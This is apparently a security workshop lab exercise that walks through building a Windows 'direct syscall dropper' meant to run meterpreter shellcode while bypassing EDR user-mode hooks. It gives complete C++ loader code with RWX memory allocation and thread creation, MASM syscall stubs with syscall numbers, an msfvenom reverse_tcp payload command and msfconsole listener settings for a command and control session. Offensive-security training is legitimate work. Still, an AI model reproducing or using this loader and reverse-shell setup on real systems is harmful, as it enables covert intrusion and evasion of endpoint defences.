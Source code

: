 ## LAB Exercise 4: Direct Syscall Dropper
Related to the Win32 dropper, in this exercise we will make the second modification, create the direct syscall dropper and implement the required syscalls or syscall stubs from each of the four native functions directly into the assembly (dropper). We will call this the direct syscall dropper.
![low_level_dropper_principal](https://user-images.githubusercontent.com/50073731/235438881-e4af349a-0109-4d8e-80e2-730915c927f6.png)

## Exercise 4 Tasks: 
1. Download the direct syscall dropper poc from the code section of this chapter.
2. Most of the code is already implemented in the poc. However, you have to complete the direct syscall dropper by performing the following tasks:
     - Create a new syscalls.h header file and use for syscalls.h the supplied code that follows in this playbook.
     - Import the syscalls.asm file as a resource and complete the assembly code by adding the missing assembler code for the remaining three native APIs following the scheme of the already implemented code for NtAllocateVirtualMemory.   
     - Enable Microsoft Macro Assembler (MASM) in the direct syscall poc in Visual Studio.
3. Create a staged x64 meterpreter shellcode with msfvenom, copy it to the poc and compile the poc. 
4. Create and run a staged x64 meterpreter listener using msfconsole.
5. Run your compiled .exe and check that a stable command and control channel opens. 
6. Use the Visual Studio **dumpbin** tool to analyse the syscall dropper. Are any Win32 APIs being imported from kernel32.dll? Is the result what you expected?  
7. Use **x64dbg** to debug or analyse the dropper. 
     - Check which Win32 APIs and native APIs are being imported. If they are being imported, from which module or memory location are they being imported? Is the result what you expected?
     - Check from which module or memory location the syscalls for the four APIs used are being executed. Is the result what you expected?


## Visual Studio
You can download the poc from the code section of this chapter. The code works as follows, shellcode declaration is the same as before in both droppers.
<details>
    
```
// Insert the Meterpreter shellcode as an array of unsigned chars (replace the placeholder with actual shellcode)
    unsigned char code[] = "\xfc\x48\x83";
```
    
</details>


The main code of the direct syscall dropper looks like the following and is already implemented in the poc. Again, we use the same native APIs to allocate memory, write memory, create a new thread and wait for exit.
<details>
<summary>Code</summary>
    
```
#include <iostream>
#include <Windows.h>
#include "syscalls.h"

int main() {
    // Insert Meterpreter shellcode
    unsigned char code[] = "\xfc\x48\x83...";

    // Allocate Virtual Memory with PAGE_EXECUTE_READWRITE permissions to store the shellcode
    // 'exec' will hold the base address of the allocated memory region
    void* exec = NULL;
    SIZE_T size = sizeof(code);
    NtAllocateVirtualMemory(GetCurrentProcess(), &exec, 0, &size, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    // Copy the shellcode into the allocated memory region
    SIZE_T bytesWritten;
    NtWriteVirtualMemory(GetCurrentProcess(), exec, code, sizeof(code), &bytesWritten);

    // Execute the shellcode in memory using a new thread
    // Pass the address of the shellcode as the thread function (StartRoutine) and its parameter (Argument)
    HANDLE hThread;
    NtCreateThreadEx(&hThread, GENERIC_EXECUTE, NULL, GetCurrentProcess(), exec, exec, FALSE, 0, 0, 0, NULL);

    // Wait for the end of the thread to ensure the shellcode execution is complete
    NtWaitForSingleObject(hThread, FALSE, NULL);


    // Return 0 as the main function exit code
    return 0;
}
```
    
</details>

    
### Header File
Unlike the native dropper, we **no longer ask ntdll.dll** for the function definition of the native APIs we use. But we still want to use the native functions, so we need to define or **directly implement** the structure for all four native functions in a header file. In this case, the header file should be called **syscalls.h**. The syscalls.h file does not currently exist in the syscall poc folder, your task is to add a new header file named syscalls.h and implement the required code. The code for the syscalls.h file can be found in the code section below. You will also need to include the header ``syscalls.h`` in the main code. 
     
Additional information if you want to check the function definition manually should be available in the Microsoft documentation, e.g. for [NtAllocateVirtualMemory](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntifs/nf-ntifs-ntallocatevirtualmemory). 

<details>
<summary>Code</summary>

```
#ifndef _SYSCALLS_H  // If _SYSCALLS_H is not defined then define it and the contents below. This is to prevent double inclusion.
#define _SYSCALLS_H  // Define _SYSCALLS_H

#include <windows.h>  // Include the Windows API header

#ifdef __cplusplus   // If this header file is included in a C++ file, then this section will be true
extern "C" {         // This is to ensure that the names of the functions are not mangled by the C++ compiler and are in C linkage format
#endif

    // The type NTSTATUS is typically defined in the Windows headers as a long.
    typedef long NTSTATUS;  // Define NTSTATUS as a long
    typedef NTSTATUS* PNTSTATUS;  // Define a pointer to NTSTATUS

    // Declare the function prototype for NtAllocateVirtualMemory
    extern NTSTATUS NtAllocateVirtualMemory(
        HANDLE ProcessHandle,    // Handle to the process in which to allocate the memory
        PVOID* BaseAddress,      // Pointer to the base address
        ULONG_PTR ZeroBits,      // Number of high-order address bits that must be zero in the base address of the section view
        PSIZE_T RegionSize,      // Pointer to the size of the region
        ULONG AllocationType,    // Type of allocation
        ULONG Protect            // Memory protection for the region of pages
    );

    // Declare the function prototype for NtWriteVirtualMemory
    extern NTSTATUS NtWriteVirtualMemory(
        HANDLE ProcessHandle,     // Handle to the process in which to write the memory
        PVOID BaseAddress,        // Pointer to the base address
        PVOID Buffer,             // Buffer containing data to be written
        SIZE_T NumberOfBytesToWrite, // Number of bytes to be written
        PULONG NumberOfBytesWritten // Pointer to the variable that receives the number of bytes written
    );

    // Declare the function prototype for NtCreateThreadEx
    extern NTSTATUS NtCreateThreadEx(
        PHANDLE ThreadHandle,        // Pointer to a variable that receives a handle to the new thread
        ACCESS_MASK DesiredAccess,   // Desired access to the thread
        PVOID ObjectAttributes,      // Pointer to an OBJECT_ATTRIBUTES structure that specifies the object's attributes
        HANDLE ProcessHandle,        // Handle to the process in which the thread is to be created
        PVOID lpStartAddress,        // Pointer to the application-defined function of type LPTHREAD_START_ROUTINE to be executed by the thread
        PVOID lpParameter,           // Pointer to a variable to be passed to the thread
        ULONG Flags,                 // Flags that control the creation of the thread
        SIZE_T StackZeroBits,        // A pointer to a variable that specifies the number of high-order address bits that must be zero in the stack pointer
        SIZE_T SizeOfStackCommit,    // The size of the stack that must be committed at thread creation
        SIZE_T SizeOfStackReserve,   // The size of the stack that must be reserved at thread creation
        PVOID lpBytesBuffer          // Pointer to a variable that receives any output data from the system
    );

    // Declare the function prototype for NtWaitForSingleObject
    extern NTSTATUS NtWaitForSingleObject(
        HANDLE Handle,          // Handle to the object to be waited on
        BOOLEAN Alertable,      // If set to TRUE, the function returns when the system queues an I/O completion routine or APC for the thread
        PLARGE_INTEGER Timeout  // Pointer to a LARGE_INTEGER that specifies the absolute```c
        // or relative time at which the function should return, regardless of the state of the object
    );

#ifdef __cplusplus  // End of the 'extern "C"' block if __cplusplus was defined
}
#endif

#endif // _SYSCALLS_H  // End of the _SYSCALLS_H definition
  
```
    
</details>
    
<details>
<summary>Solution</summary>   
    <p align="center">
<img width="500" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/5fbb39c6-be30-4641-8652-6b98e478e17f"> 
    </p>
    <p align="center">   
    <img width="800" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/d116e34d-8bea-4d4b-a437-a27594218a5b">
    </p>
    <p align="center">
    <img width="800" alt="image" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/4b3e7f58-b6c1-492a-9516-46dcf3af942c">
    </p>
</details>     
    

### Assembly Instructions
Furthermore, we do not want to ask ntdll.dll for the syscall stub or the content or code of the syscall stub (assembly instructions ``mov r10, rcx``, ``mov eax, SSN`` etc.) of the native functions we use, instead we have to implement the necessary assembly code in the assembly itself. As mentioned above, instead of using a tool to create the necessary assembly instructions, for the best learning experience we will **manually implement** the **assembly code** in our direct syscall poc. To do this, you will find a file called ``syscalls.asm`` in the direct syscall dropper poc directory, which contains some of the required assembler code. The code below shows the assembler code for the syscall stub of ``NtAllocateVirtualMemory`` which is already implemented in the syscalls.asm file. 

<details>
<summary>Code</summary>

```
.CODE  ; Start the code section
; Procedure for the NtAllocateVirtualMemory syscall
NtAllocateVirtualMemory PROC
    mov r10, rcx                                    ; Move the contents of rcx to r10. This is necessary because the syscall instruction in 64-bit Windows expects the parameters to be in the r10 and rdx registers.
    mov eax, 18h                                    ; Move the syscall number into the eax register.
    syscall                                         ; Execute syscall.
    ret                                             ; Return from the procedure.
NtAllocateVirtualMemory ENDP     
END  ; End of the module    
```
    
</details>
     
It is your task to **add** the ``syscalls.asm`` file **as a resource** (existing item) to the direct syscall dropper project and complete the assembler code or add the syscall stub for the other three missing native APIs ``NtWriteVirtualMemory``, ``NtCreateThreadEx`` and ``NtWaitForSingleObject``.

If you are unable to complete the assembly code at this time, you can use the assembly code from the solution and paste it into the ``syscalls.asm`` file in the **direct syscall dropper poc**. **Note** that the syscalls IDs are for Windows 10 Enterprise 22H2 and may not work for your target. You may need to replace the syscalls IDs with the correct syscalls IDs for your target Windows version.
    
<details>
    <summary>Solution</summary>

```
.CODE  ; Start the code section
; Procedure for the NtAllocateVirtualMemory syscall
NtAllocateVirtualMemory PROC
    mov r10, rcx                                    ; Move the contents of rcx to r10. This is necessary because the syscall instruction in 64-bit Windows expects the parameters to be in the r10 and rdx registers.
    mov eax, 18h                                    ; Move the syscall number into the eax register.
    syscall                                         ; Execute syscall.
    ret                                             ; Return from the procedure.
NtAllocateVirtualMemory ENDP                     	; End of the procedure.

; Similar procedures for NtWriteVirtualMemory syscalls
NtWriteVirtualMemory PROC
    mov r10, rcx
    mov eax, 3AH
    syscall
    ret
NtWriteVirtualMemory ENDP

; Similar procedures for NtCreateThreadEx syscalls
NtCreateThreadEx PROC
    mov r10, rcx
    mov eax, 0C2h
    syscall
    ret
NtCreateThreadEx ENDP

; Similar procedures for NtWaitForSingleObject syscalls
NtWaitForSingleObject PROC
    mov r10, rcx
    mov eax, 4
    syscall
    ret
NtWaitForSingleObject ENDP

END  ; End of the module
```
    
</details>

    
    
### Microsoft Macro Assembler (MASM)
We have already implemented all the necessary assembler code in the syscalls.asm file. But in order for the code to be interpreted correctly within the direct syscall poc, we need to do a few things. These steps are not done in the downloadable poc and must be done manually. First, we need to **enable support** for **Microsoft Macro Assembler (MASM)** in the Visual Studio project by enabling the option in Build Dependencies/Build Customisations.
<details>
<summary>Solution</summary> 
<p align="center">
<img width="1278" alt="image" src="https://user-images.githubusercontent.com/50073731/235457590-371f3519-b7cf-483d-9c1c-6bfd6368be42.png">
<img width="590" alt="image" src="https://user-images.githubusercontent.com/50073731/235457782-780d2136-30d7-4e87-a022-687ed2557b33.png">
</details>

We also need to set the **item type** of the **syscalls.asm** file to Microsoft Macro Assembler, otherwise we will get an unresolved symbol error in the context of the native APIs used in the direct syscall dropper. We also set Excluded from Build to no and Content to yes. 
<details>
<summary>Solution</summary> 
    <p align="center">
<img width="950" alt="image" src="https://user-images.githubusercontent.com/50073731/235471947-4bcd23fc-5093-4f4d-adc8-eb3ef36f139f.png">    
<img width="1237" alt="image" src="https://user-images.githubusercontent.com/50073731/235458968-e330799e-51ff-46bf-97ab-c7d3be7ea079.png">
<img width="778" alt="image" src="https://user-images.githubusercontent.com/50073731/235459219-4387dc48-56f8-481c-b978-1b786843a836.png">
    </p>
</details>     

    

## Meterpreter Shellcode
Again, we will create our meterpreter shellcode with msfvenom in Kali Linux. To do this, we will use the following command and create x64 staged meterpreter shellcode.
<details>
    
 **kali>**   
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=IPv4_Redirector_or_IPv4_Kali LPORT=80 -f c > /tmp/shellcode.txt
```
<p align="center">
<img width="800" alt="image" src="https://user-images.githubusercontent.com/50073731/235358025-7267f8c6-918e-44e9-b767-90dbd9afd8da.png">
</p>

The shellcode can then be copied into the direct syscall dropper poc by replacing the placeholder at the unsigned char, and the poc can be compiled as an x64 release.<p align="center">
<img width="600" alt="image" src="https://user-images.githubusercontent.com/50073731/235414557-d236582b-5bab-4754-bd12-5f7817660c3a.png">
</p>
</details>    


## MSF-Listener
Before we test the functionality of our direct syscall dropper, we need to create a listener within msfconsole.
<details>
    
**kali>**
```
msfconsole
```
**msf>**
```
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost IPv4_Redirector_or_IPv4_Kali
set lport 80 
set exitonsession false
run
```
<p align="center">
<img width="600" alt="image" src="https://user-images.githubusercontent.com/50073731/235358630-09f70617-5f6e-4f17-b366-131f8efe19d7.png">
</p>
</details>
 
    
Once the listener has been successfully started, you can run your compiled direct syscall dropper. If all goes well, you should see an incoming command and control session. 
<details>
    
<p align="center">
<img width="800" alt="image" src="https://user-images.githubusercontent.com/50073731/235369228-84576762-b3b0-4cf7-a265-538995d42c40.png">
</p>
</details>
        

    
## Direct Syscall Dropper Analysis: Dumpbin 
The Visual Studio tool dumpbin can be used to check which Windows APIs are imported via kernel32.dll. The following command can be used to check the imports. Which results do you expect?
<details>    
    
**cmd>**
```
cd C:\Program Files (x86)\Microsoft Visual Studio\2019\Community
dumpbin /imports low_level.exe
```
</details>    

<details>
    <summary>Solution</summary>  
    
**No imports** from the Windows APIs VirtualAlloc, WriteProcessMemory, CreateThread, and WaitForSingleObject from kernel32.dll. This was expected and is correct.
<p align="center">
<img width="1023" alt="image" src="https://user-images.githubusercontent.com/50073731/235473764-c85ccc73-a1cb-403d-8162-172146375d96.png">
</p>
</details>   
    
    
## Direct Syscall Dropper Analysis: x64dbg 
The first step is to run your direct syscall dropper, check that the .exe is running and that a stable meterpreter C2 channel is open. 
Then we open x64dbg and attach to the running process, note that if you open the direct syscall dropper directly in x64dbg, you need to run the assembly first.
<details>
<p align="center">
<img width="800" alt="image" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/a8509e63-ddea-4dee-894f-b2266bb3e504">
</p>
<p align="center">
<img width="800" alt="image" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/492c09bc-e9db-428b-90f4-311b1a8a5d4b">
</p>            
</details>
     
    
First we want to check which APIs (Win32 or Native) are being imported and from which module or memory location. Remember that in the direct syscall dropper we no longer use Win32 APIs in the code and have implemented the structure for the native functions directly in the assembly. What results do you expect?
<details>
    <summary>Solution</summary>
     Checking the imported symbols in our direct syscall dropper, we should again see that the Win32 APIs VirtualAlloc, WriteProcessMemory, CreateThread and WaitForSingleObject are no longer imported by kernel32.dll, or are no longer imported in general. So the result is the same as with dumpbin and seems to be valid.     
<p align="center">
<img width="800" alt="image" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/2fd0e78c-db42-4338-b943-5a198e62c7a1">
</p>       
</details>
<details>
    <summary>Solution</summary>
     We can also see that instead of asking ntdll.dll for the four native functions used, they are implemented directly in the assembly in the .text region. 
<p align="center">
<img width="800" alt="image" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/e2b2b167-7d52-41ec-8d93-c6f0da4ae958">
</p>       
</details>
We also want to check from which module or memory location the syscall stub of the native functions used is implemented, and also check from which module or memory location the syscall statement and return statement are executed.
<details>
    <summary>Solution</summary>
     In the context of the native function ``NtAllocateVirutalMemory``, we follow in the disassembler and should be able to see that the syscall stub is not retrieved from ntdll.dll, instead the stub is implemented directly into the .text section of the assembly. We can also see that the syscall statement and the return statement are executed from the memory location of the direct syscall dropper assembly.    
<p align="center">
<img width="800" alt="image" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/f78a51a0-fdc8-4c19-8d4b-924024c9dc5b">
</p>       
<p align="center">
<img width="800" alt="image" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/462e794c-1a4f-4bd8-9375-8d503941caa3">
</p>       
</details>


## Summary:
- Made transition from Native APIs to direct syscalls
- Dropper imports no longer Windows APIs from kernel32.dll
- Dropper imports no longer Native APIs from ntdll.dll
- Syscalls or syscall stubs are "implemented" directly into .text section of .exe
- User mode hooks in ntdll.dll and EDR can be bypassed 
